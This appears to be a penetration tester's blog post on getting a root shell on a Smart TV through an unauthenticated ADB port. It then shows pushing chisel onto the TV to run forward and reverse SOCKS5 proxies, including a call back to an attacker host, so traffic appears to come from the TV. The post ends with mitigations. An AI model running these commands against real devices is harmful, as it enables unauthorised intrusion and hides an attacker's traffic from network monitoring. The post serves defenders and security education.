









In this blog, I'll show how an **unauthenticated Android Debug Bridge (ADB) port** on a Smart TV gave me an instant **root shell** on the device, and how I turned that shell into a **covert SOCKS proxy** using [**chisel**](https://github.com/jpillora/chisel), routing my network traffic through a television set sitting in a room somewhere on the network.

## Prologue
> **"The telescreen received and transmitted simultaneously."**  
> *- George Orwell, 1984*

The smart TV in the corner of the room is always on, always connected, and always trusted. It sits on the network alongside everything else, pulling firmware updates, streaming content, phoning home to telemetry servers. Nobody monitors its traffic, nobody patches its firmware, and nobody thinks to ask what else it might be doing. Under the hood, it runs Android on a full Linux kernel, and if someone left its debug port open, you don't need a vulnerability at all. You just need to connect.

## What is ADB?
**ADB (Android Debug Bridge)** is a command-line tool that lets developers communicate with an Android device. It provides a Unix shell, file transfer, app installation, log access, and full system-level control. It listens on **TCP port 5555** when enabled for network debugging.

ADB was designed for development. It assumes the person connecting is the device's owner or a trusted developer. Modern Android phones prompt the user to authorize each new ADB connection via an on-screen RSA key confirmation dialog. But many IoT devices running Android, things like **Smart TVs, set-top boxes, digital signage players, and kiosks**, ship with ADB enabled over the network and **no authorization prompt at all**. Connect, and you're in.

## Finding the Open Port
A network scan of the internal environment flagged **TCP port 5555** open on a host. A quick check with `nc` confirmed the port was reachable, and an `nmap` service scan identified it as **Android Debug Bridge**:
```bash
nc -zv x.x.x.x 5555
nmap -sV -p 5555 x.x.x.x
```
<br />
The service banner confirmed **OS: Android**. Port 5555 with an ADB service is the fingerprint of an Android device with network debugging wide open.

## Connecting to ADB
With ADB installed on my machine, connecting was a single command:
```bash
adb connect x.x.x.x
```
<br />
No authorization prompt, no pairing code, no credential of any kind. The device accepted the connection immediately.

## Instant Root Shell
From there, dropping into a shell was one more command:
```bash
adb shell
```
<br />
The prompt says it all: **`tv:/ #`**. The device is a Smart TV, and `id` confirms **uid=0(root)** with membership in every privileged group on the system. Full root access to an Android device, obtained with nothing but a network connection and two commands. No exploit, no credential, no vulnerability.

## Identifying the Architecture
Before deploying any tooling, I checked the device's CPU architecture:
```bash
uname -m
```
<br />
The device reported **aarch64** (64-bit ARM). This determines which binary to download in the next step.

## What is Chisel?
[**Chisel**](https://github.com/jpillora/chisel) is a fast TCP/UDP tunnel tool written in Go that supports **SOCKS5 proxying** over HTTP. It compiles to a **single static binary** with no external dependencies, making it ideal for embedded and IoT devices where you can't install packages or rely on any runtime being present. One binary, one command, and you have a tunnel.

## Deploying Chisel onto the Device
### Downloading the Binary
On my machine, I downloaded the ARM build of chisel from [GitHub releases](https://github.com/jpillora/chisel/releases) and decompressed it:
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.12.0-rc2/chisel_1.12.0-rc2_linux_armv7.gz
gunzip chisel_1.12.0-rc2_linux_armv7.gz
```

### Pushing It to the Device
ADB has a built-in file transfer command. I pushed the binary to a writable directory on the device:
```bash
adb push chisel_1.12.0-rc2_linux_armv7 /data/local/tmp/chisel
```
<br />

### Verifying the Binary
On the device, I confirmed the binary was in place, made it executable, and verified it ran:
```bash
cd /data/local/tmp
ls -l
file chisel
chmod +x chisel
./chisel
```
<br />
`file` confirmed it as a **static ELF ARM binary** (32-bit ARM binaries are backward compatible with 64-bit ARM processors), and running it without arguments printed its version and usage. Chisel is ready.

## Method 1: Forward SOCKS Proxy
In this mode, chisel runs as a **server** on the Smart TV, and the attacker connects to it as a **client**. This works when the device is directly reachable on the network.

On the **Smart TV**:
```bash
./chisel server --socks5 --port 2626
```

On the **attacker's machine**:
```bash
chisel client x.x.x.x:2626 1080:socks
```
<br />
The client connects to the chisel server on the TV and opens a **SOCKS5 proxy on `127.0.0.1:1080`** on the attacker's machine. Any traffic sent through that proxy now exits from the Smart TV's network interface.

## Method 2: Reverse SOCKS Proxy
If the device is behind a firewall or NAT and can't accept inbound connections, the direction flips. The attacker runs the chisel **server**, and the device connects **out** to it, carrying the SOCKS proxy back through the connection.

On the **attacker's machine**:
```bash
chisel server --reverse --port <attacker_port>
```

On the **Smart TV**:
```bash
./chisel client <attacker_ip>:<attacker_port> R:<proxy_port>:socks &
```

The `R:` prefix tells chisel to expose the SOCKS proxy on the **attacker's** side, even though the connection was initiated from the device. The result is identical: a SOCKS5 proxy on the attacker's localhost, with traffic exiting from the TV. The reverse method is more versatile since it works even when the device can't accept inbound connections, and it is the go-to approach for devices behind restrictive firewalls.

## Configuring the Browser
I pointed **Firefox** at the SOCKS proxy:<br />
<br />
* **SOCKS Host:** `127.0.0.1`
* **Port:** `1080`
* **SOCKS v5** selected, **Proxy DNS when using SOCKS v5** enabled

Every HTTP request Firefox makes now travels: **browser -> SOCKS proxy -> chisel tunnel -> Smart TV -> destination**. The destination sees the TV's IP address, not the attacker's.

## The Proof - Hidden Behind the TV
To prove the traffic was exiting from the Smart TV, I set up an HTTP server on another host and browsed to it through the proxy:<br />
<br />

The HTTP server's access log shows two sets of requests. The first came from my real IP address (direct connection). The second came from **the Smart TV's IP address**, not mine.

The attacker's machine is invisible. The traffic appears to come from a television set that is *supposed* to be on the network, doing exactly what smart TVs do: making HTTP requests. It blends in perfectly.

## Attack Path
The full chain, from an open port to covert network proxy:
1. Discover an Android device on the network with **TCP port 5555** open.
2. Identify the service as **Android Debug Bridge** via nmap.
3. **`adb connect`** to the device, no authentication required.
4. **`adb shell`** for an interactive root shell.
5. Check the device architecture with `uname -m`.
6. Download the matching [**chisel**](https://github.com/jpillora/chisel) binary and push it to the device via `adb push`.
7. Run chisel as a **SOCKS5 server** on the device (forward mode), or use **reverse mode** if the device can't accept inbound connections.
8. Connect the chisel **client** from the attacker's machine.
9. Point any application (browser, scanner, tools) at the local SOCKS proxy.
10. All traffic now exits from the **Smart TV's IP address**, the attacker is hidden.

## Mitigations
An open ADB port is the simplest possible foothold: no exploit, no credentials, just connect. To prevent this:
- **Disable ADB over network** on all production/deployed devices. ADB should only be enabled during development, never in a deployed environment.
- **Require ADB authorization.** If network ADB must remain on, ensure the device enforces RSA key pairing so that only pre-authorized machines can connect.
- **Segment IoT devices onto a dedicated VLAN.** Smart TVs, set-top boxes, and similar devices should not share a network with servers, workstations, or sensitive infrastructure.
- **Block port 5555 at the network level.** Firewall rules should prevent any traffic to TCP 5555 from outside the management network.
- **Monitor for ADB connections.** An ADB session from an unexpected source is a strong indicator of compromise. Alert on new connections to port 5555.
- **Restrict writable directories.** On Android IoT devices, limit which directories allow executable files to be written and run.

### Note
The above measures reduce risk significantly but do not guarantee 100% protection - defence in depth is the goal.

## Conclusion
A Smart TV is a computer. It runs a full operating system, has a network stack, and sits on the same network as everything else. When its debug port is left open and unauthenticated, it takes two commands to get root and a few minutes more to turn it into a network proxy. The traffic exits from a device that's *supposed* to be there, making requests that look like normal IoT behavior.

Nobody monitors the TV. Nobody patches the TV. Nobody suspects the TV. That's exactly what makes it useful.

## References
* [Android Debug Bridge (ADB) Documentation](https://developer.android.com/tools/adb)
* [chisel - TCP/UDP Tunnel (GitHub)](https://github.com/jpillora/chisel)
* [Port Forwarding with Chisel (Ben Heater)](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
* [HackTricks - ADB Pentesting](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge)
* [OWASP - IoT Attack Surface](https://owasp.org/www-project-internet-of-things/)
